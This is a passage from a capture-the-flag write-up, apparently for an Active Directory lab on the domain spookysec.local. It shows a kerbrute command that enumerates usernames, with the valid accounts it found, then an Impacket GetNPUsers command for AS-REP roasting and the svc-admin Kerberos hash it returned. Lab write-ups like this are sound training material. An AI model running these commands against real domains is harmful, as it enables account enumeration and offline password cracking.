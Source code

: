 **What notable account is discovered? (These should jump out at you)**

- ``./kerbrute_linux_amd64 userenum --dc 10.10.132.136:88 -d spookysec.local userlist.txt``

```shell
2022/06/20 07:49:18 >  [+] VALID USERNAME:       james@spookysec.local
2022/06/20 07:49:21 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2022/06/20 07:49:25 >  [+] VALID USERNAME:       James@spookysec.local
2022/06/20 07:49:26 >  [+] VALID USERNAME:       robin@spookysec.local
2022/06/20 07:49:43 >  [+] VALID USERNAME:       darkstar@spookysec.local
2022/06/20 07:49:53 >  [+] VALID USERNAME:       administrator@spookysec.local
2022/06/20 07:50:12 >  [+] VALID USERNAME:       backup@spookysec.local
2022/06/20 07:50:21 >  [+] VALID USERNAME:       paradox@spookysec.local
2022/06/20 07:51:19 >  [+] VALID USERNAME:       JAMES@spookysec.local
2022/06/20 07:51:39 >  [+] VALID USERNAME:       Robin@spookysec.local
2022/06/20 07:53:35 >  [+] VALID USERNAME:       Administrator@spookysec.local
2022/06/20 07:57:30 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2022/06/20 07:58:45 >  [+] VALID USERNAME:       Paradox@spookysec.local
2022/06/20 08:03:03 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2022/06/20 08:04:17 >  [+] VALID USERNAME:       ori@spookysec.local
2022/06/20 08:06:32 >  [+] VALID USERNAME:       ROBIN@spookysec.local
```

**What is the other notable account is discovered? (These should jump out at you)**

- svc-admin

**What is the other notable account is discovered? (These should jump out at you)**

- backup

* * *

## Task 5 - Exploitation Abusing Kerberos 

After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called ASREPRoasting. ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

##   Answer the questions below

**We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?**

- ``/opt/impacket/examples/GetNPUsers.py spookysec.local/ -dc-ip 10.10.132.136 -usersfile users.txt -format hashcat -outputfile hashes.txt``
- svc-admin

**Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)**

```
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:f45f55f20e6fab0b565c84565e77bf8c$6fc870818e2691f65612966f462ec3d973acaeab9cd87dcf13e50a9454945c8de2f046e6b02f440b5232c9cc34cb18f4485915206a8e3264c4aee2e9442ff8104c9389ab4ae875c90916b5accb02680e7e781a71c95df510ffc11a3fc36cb0ae36bb48b03a8ebd617c1a3532e3e439acf5e4d097498aa91c08aa3ded9a54ad91a7aefcfa1ac4ee47f5bb85e38f9174bdac51a7a3896b52833f5448f246d08797f199e004ea4ecd77f6b57d01a26e6930fea74f331143f356d392c6f8ec8f394b1602557611cb585fe2d189cf5d01f7a1a272255b4f350640104b94c40cb8605b3eff072fc5e502fe49e5230c26384012e952
```
